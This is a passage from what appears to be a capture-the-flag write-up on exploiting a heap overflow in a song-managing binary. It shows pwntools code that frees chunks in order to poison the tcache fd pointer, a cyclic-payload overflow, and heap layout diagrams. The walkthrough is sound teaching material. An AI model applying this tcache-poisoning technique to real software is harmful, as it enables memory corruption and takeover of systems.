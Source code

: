 ```
|                | <- 23
|                |
|                |
|                |
|       ...      |
```

Next, we'll free songs 12, 13, 2, and 23. The order in which we free songs 2 and 23 doesn't matter, but we need to free song 13 before song 12, so that when we play song 44 (the one we can overflow with) later, malloc will recycle the song location of song 12, so that we can poison the tcache `fd` pointer that's in song 13. This python snippet should do the trick.

```python
delete("13")
delete("12")
delete("2")
delete("23")
```

When we see how the bins look like in pwndbg at this point, we see the following output:

![](https://i.imgur.com/DcemaEx.png)

Note that we're not freeing songs 45 and 46 just yet. This is because when we do the overflow to adjust their `mchunk_size` headers, we want to do it while they're allocated. You'll see why we want to do this in a bit, we're just geting started :D

Now, we're going to do the overflow. First, we need to find the offsets on which the freed tcache chunk's pointers are. We'll be using the `play_overflow()` function to do the overflow, and we can use pwntool's `cyclic()` function to generate a payload that can give us some offset information: 

```python=
play_overflow("44", "-1", cyclic(1000))
sh.interactive() #<- allows the process to keep running, letting us attach gdb to it.
```

When we run our exploit so far, the heap's positional layout should look like this:

```
------------------
|                | <-44----------
------------------              O
|                | <-13 (freed) V
------------------              E 
|                | <-2 (freed)  R
|                |              F
|                |              L
|                |              O
|                |              W
------------------              |
|                | <- 45        v
------------------ 
|                | <- 46
------------------
|                | <- 23 (freed)
|                |
|                |
|                |
|       ...      |
```
